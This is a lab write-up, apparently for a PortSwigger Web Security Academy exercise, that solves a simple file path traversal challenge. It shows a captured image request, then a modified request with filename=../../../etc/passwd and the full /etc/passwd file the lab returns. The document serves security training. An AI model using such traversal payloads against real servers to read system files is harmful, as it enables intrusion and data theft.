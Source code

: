 ## Lab: File path traversal, simple case
This lab contains a path traversal vulnerability in the display of product images.

To solve the lab, retrieve the contents of the `/etc/passwd` file.


## Solution:

When entering the site that seems to be a webshop we can capture the traffic of from the frontend requesting all the pictures from the server.
Example:
```http
GET /image?filename=9.jpg HTTP/2
Host: 0aa7007004ba99ac8131525100210055.web-security-academy.net
Cookie: session=xqLwog67FHwom7Ukn05v3KtBUbSF2AXN
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0aa7007004ba99ac8131525100210055.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=2, i
```

The request is made to ```/image``` path with the query string ```filename={name_of_file}```
Sending this request to the Repeater to change the query string easier.

I enter the file requested in the lab description. /etc/passwd and the file can't be found.
![](../img/Path_traversal.png)

By adding the sequence ```../``` before the file name to step up on level in the directory structure we can traverse through the file tree and search for the file requested.

Through trial and error we finally got to the root of the file system and could from there access ```/etc/passwd``` and get the content in the response.
Request:
```http
GET /image?filename=../../../etc/passwd HTTP/2
Host: 0aa7007004ba99ac8131525100210055.web-security-academy.net
Cookie: session=xqLwog67FHwom7Ukn05v3KtBUbSF2AXN
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0aa7007004ba99ac8131525100210055.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=2, i
```

Response:
```http
HTTP/2 200 OK
Content-Type: image/jpeg
X-Frame-Options: SAMEORIGIN
Content-Length: 2316

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false
```
